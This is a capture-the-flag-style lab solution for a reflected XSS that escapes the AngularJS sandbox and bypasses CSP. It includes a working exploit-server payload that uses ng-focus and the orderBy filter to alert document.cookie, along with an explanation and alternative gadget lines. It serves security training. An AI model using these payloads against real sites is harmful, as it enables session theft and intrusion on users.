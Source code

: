 

#### Reflected XSS with AngularJS sandbox escape and CSP

> This lab uses CSP and AngularJS. To solve the lab, perform a cross-site scripting attack that bypasses CSP, escapes the AngularJS sandbox, and alerts document.cookie. And search term cannot exceed 70 characters.
>

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        <p>
                            Go to the exploit server and paste the following code, replacing <code>your-lab-id</code> with your lab ID:
                        </p>
                        <code class="code-scrollable">&lt;script&gt;
location='https://your-lab-id.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
&lt;/script&gt;</code>
                    </li>
                    <li>
                        Click "Store" and "Deliver exploit to victim".
                    </li>
                </ol>
                <p>
                    The exploit uses the <code>ng-focus</code> event in AngularJS to create a focus event that bypasses CSP. It also uses <code>$event</code>, which is an AngularJS variable that references the event object. The <code>path</code> property is specific to Chrome and contains an array of elements that triggered the event. The last element in the array contains the <code>window</code> object.
                </p>
                <p>
                    Normally, <code>|</code> is a bitwise or operation in JavaScript, but in AngularJS it indicates a filter operation, in this case the <code>orderBy</code> filter. The colon signifies an argument that is being sent to the filter. In the argument, instead of calling the <code>alert</code> function directly, we assign it to the variable <code>z</code>. The function will only be called when the <code>orderBy</code> operation reaches the <code>window</code> object in the <code>$event.path</code> array. This means it can be called in the scope of the window without an explicit reference to the <code>window</code> object, effectively bypassing AngularJS's <code>window</code> check.
                </p>
            </div>
        </div>

```javascript
// Reference
[].constructor.from([document.cookie],alert)
[document.cookie].map(alert)
(z=alert)(document.cookie)
```


